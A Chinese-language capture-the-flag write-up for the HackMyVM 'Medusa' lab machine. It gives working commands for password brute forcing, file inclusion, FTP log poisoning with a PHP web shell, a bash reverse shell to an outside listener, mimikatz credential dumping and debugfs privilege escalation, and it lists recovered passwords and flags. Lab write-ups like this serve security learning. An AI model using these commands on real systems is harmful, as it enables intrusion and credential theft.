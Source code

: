 # Medusa

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Medusa

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不允许匿名登陆。

80 扫描出 http://192.168.5.40/hades 再次扫描发现 http://192.168.5.40/hades/door.php 要输入密码，进行爆破：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -u http://192.168.5.40/hades/d00r_validation.php -X POST -d 'word=FUZZ' -H 'Content-Type: text/html; charset=UTF-8'
```

但是没有找到，在回顾 apache 的工作页面中有这样一句话：However, check Kraken open the door. 输入魔术字: Kraken 得到了新的提示：medusa.hmv 添加到 hosts 文件，再次扫描，没有扫描到，在扫描一下 vhost：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain medusa.hmv -u http://192.168.5.40/
```

发现 dev.medusa.hmv 将其加入 hosts 文件，对其扫描：

```
gobuster dir -t 64 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.medusa.hmv/ -e -x php,txt
```

发现几个连接：

```
http://dev.medusa.hmv/files/system.php
http://dev.medusa.hmv/files/index.php
```

页面都是空页面，可能有参数，ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd
```

发现 view 参数，curl http://dev.medusa.hmv/files/system.php?view=/etc/passwd 发现存在文件包含，对其再次探测，发现能够读取 ftp 的日志文件： /var/log/vsftpd.log 文件，可以将 php 脚本植入到登陆的用户名中，从而实现 RCE：

```
ftp 192.168.5.40
Connected to 192.168.5.40.
220 (vsFTPd 3.0.3)
Name (192.168.5.40:kali): <?php system($_GET[1]); ?>

curl 'http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log&1=id'

Thu Feb 20 05:22:28 2025 [pid 5391] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

直接执行反弹 shell:

```
curl -G --data-urlencode 'view=/var/log/vsftpd.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://dev.medusa.hmv/files/system.php
```

得到反弹的 shell，发现一个用户 spectre ，无权限读取 user flag，进行提权。

枚举发现文件 /.../old_files.zip 传输到 kali，有密码，使用 John 解密发现密码 medusa666 ，解压后是 lsass.DMP 文件，可以使用 mimikatz 进行读取，得到密码：

```
mimikatz.exe
sekurlsa::minidump lsass.DMP
sekurlsa::logonpasswords full
```

发现用户 spectre 的密码是 5p3ctr3_p0is0n_xX , 切换到该用户，获得了 user flag:

```
spectre@medusa:~$ cat  user.txt
good job!

487a5d1ce02c53fbf60c3abd300d9ff5
```

发现当前用户属于 disk 组，可以利用 debugfs 进行提权：

```
df -h
debugfs /dev/sda1
cat /etc/shadow
root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::
```

对哈希进行破解，得到 root 密码 andromeda 切换到 root 获得 root flag：

```
root@medusa:~# cat .rO0t.txt
congrats hacker :)

34b1e6fc5e7fe0bfd56ed4b8776c9f5b
```

看看配置的 vhost 信息：

```
<VirtualHost *:80>
 ServerName dev.medusa.hmv
 DocumentRoot /var/www/dev
 <Directory /var/www/dev>
   AllowOverride All
 </Directory>
</VirtualHost>
```
